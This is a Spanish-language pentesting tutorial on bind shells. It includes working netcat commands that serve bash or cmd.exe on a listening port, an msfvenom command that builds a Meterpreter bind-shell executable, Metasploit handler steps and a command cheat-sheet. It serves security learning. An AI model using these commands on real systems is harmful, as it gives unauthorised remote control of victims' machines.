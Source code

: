 # Bind Shells

## 1. ¿Qué es un Bind Shell?
Un **Bind Shell** es un tipo de conexión remota en la que **la máquina víctima abre un puerto y queda a la escucha**, esperando que el atacante se conecte para otorgarle acceso a una shell.  
En otras palabras:
- La **víctima** actúa como **servidor**.
- El **atacante** actúa como **cliente**.

---

## 2. ¿Para qué sirve?
- Permite **control remoto** del sistema objetivo.
- Se usa para **administración remota** o en **pentesting** para mantener acceso.
- Útil en entornos donde el atacante **puede conectarse directamente** al puerto expuesto de la víctima.

**Nota:** No funciona bien si la víctima está detrás de un NAT o firewall que bloquea conexiones entrantes, a menos que se redirijan puertos.

---

## 3. Funcionamiento
1. La **víctima** abre un puerto y queda escuchando.
2. El **atacante** se conecta a ese puerto.
3. Se establece una shell interactiva (cmd.exe, bash, etc.).

---

## 4. Ejemplo con Netcat

### En la víctima (Servidor)
```bash
# Linux
nc -lvp 4444 -e /bin/bash

# Windows
nc.exe -lvp 4444 -e cmd.exe
```
- `-l` → escucha.
- `-v` → modo detallado.
- `-p` → puerto.
- `-e` → ejecuta el programa indicado (bash o cmd.exe).

### En el atacante (Cliente)
```bash
nc <IP_víctima> 4444
```
Esto da acceso a la shell remota del sistema víctima.

---

## 5. Ejemplo con msfvenom (Bind Shell Payload)

### Crear payload para Windows
```bash
msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -f exe > bind.exe
```
- `windows/meterpreter/bind_tcp` → Payload bind shell con Meterpreter.
- `LPORT` → Puerto donde quedará a la escucha la víctima.
- `-f exe` → Formato ejecutable de Windows.

---

## 6. Uso en Metasploit

1. Cargar módulo de multi/handler:
```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set RHOST <IP_víctima>
set LPORT 4444
exploit
```
2. Esto conecta al bind shell de la víctima.

---

## 7. Ventajas y Desventajas

**Ventajas:**
- Fácil de configurar si el puerto está abierto.
- No requiere que el atacante abra puertos.

**Desventajas:**
- No funciona bien si la víctima está detrás de un NAT/firewall.
- Más fácil de detectar con escaneos de puertos.
- Menos común en entornos reales comparado con **Reverse Shell**.

---

## 8. Comparación con Reverse Shell
| Característica      | Bind Shell | Reverse Shell |
|---------------------|------------|---------------|
| Quién inicia conexión | Atacante  | Víctima       |
| Problemas con NAT   | Sí         | Menos probable|
| Uso común en pentesting | Menos frecuente | Muy frecuente |

---

## 9. Resumen de comandos clave

```bash
# Bind Shell Linux
nc -lvp 4444 -e /bin/bash

# Bind Shell Windows
nc.exe -lvp 4444 -e cmd.exe

# Crear Bind Shell con msfvenom (Windows)
msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -f exe > bind.exe

# Conectar al Bind Shell con Netcat
nc <IP_víctima> 4444
```

